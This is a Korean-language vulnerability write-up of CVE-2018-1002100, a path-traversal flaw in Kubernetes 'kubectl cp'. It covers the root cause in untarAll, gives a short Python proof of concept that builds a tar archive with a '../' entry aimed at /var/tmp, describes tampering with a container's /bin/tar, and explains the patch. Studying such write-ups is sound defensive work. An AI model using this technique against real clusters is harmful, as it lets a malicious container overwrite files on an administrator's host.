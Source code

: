 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|     취약한 버전     |           취약점 종류           |                                 취약점 설명                                  |
| :-----------------: | :-----------------------------: | :--------------------------------------------------------------------------: |
| kubernetes: ~v1.9.5 | overwrite arbitrary local files | “kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점 |

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다. 

path.join 함수는 입력된 경로들을 순차적으로 탐색했을 때, 나올 수 있는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC4.png?raw=true)

path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC3.png?raw=true)

# Root Cause 분석

“kubectl cp” 명령어를 수행하면, tar 아카이브 파일을 컨테이너와 호스트가 주고 받는데, 이때 호스트는 kubectl 내에 구성된 cp.go 파일에서 tar 파일을 처리하는 루틴을 구현해 놓았고, 컨테이너에서는 /bin/tar 바이너리를 사용해서 tar 아카이빙을 수행한다.

이때, 호스트에서 전송받은 tar 아카이브 파일이 “../../../../../tmp/foo”와 같이, 상위 디렉토리로 거슬러 올라가도록 만들어 놓으면, 파일을 해제할 때, 이를 그대로 올라가 파일을 덮어쓴다. 즉, path traversal이 일어나는 것이고, /bin/tar 바이너리를 공격자가 임의로 수정하면, “kubectl cp” 명령이 해당 컨테이너를 대상으로 수행될 때, 항상 원하는 결과를 반환할 수 있다. 따라서, 위에서 재연할 때는, 미리 구현한 특정 tar 아카이브를 읽도록 /bin/tar 실행 파일을 수정하였다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 파고들어가는 것이 가능하다.

`kubectl cp mongodb:/something ./123`

- prefix: something
- destFile: ./123
- header.Name: 아카이브에 있는 파일/디렉토리 명
- outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 올라가게 된다.

baseName: outFileName의 상위 디렉토리 경로

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 이를 확인해보면 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC5.png?raw=true)

파일명을 자세히 보면, 상위 디렉토리로 계속 거슬러 올라가서 /var/tmp/unexpected 파일을 압축한 것임을 알 수 있다.

그리고, 컨테이너 내에서의 tar 파일을 지우고, 이를 쉘 스크립트 파일로 “cat sample.tar”을 하도록 만든다면, 쿠버네티스의 관리자가 공격자의 컨테이너를 대상으로 “kubectl cp” 명령어를 쳤을 때, 다음과 같이 공격에 성공할 수 있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC6.png?raw=true)

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```



![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC7.png?raw=true)

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, [https://nvd.nist.gov/vuln/detail/CVE-2018-1002100](https://nvd.nist.gov/vuln/detail/CVE-2018-1002100)

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, [https://hansmi.ch/articles/2018-04-openshift-s2i-security](https://hansmi.ch/articles/2018-04-openshift-s2i-security)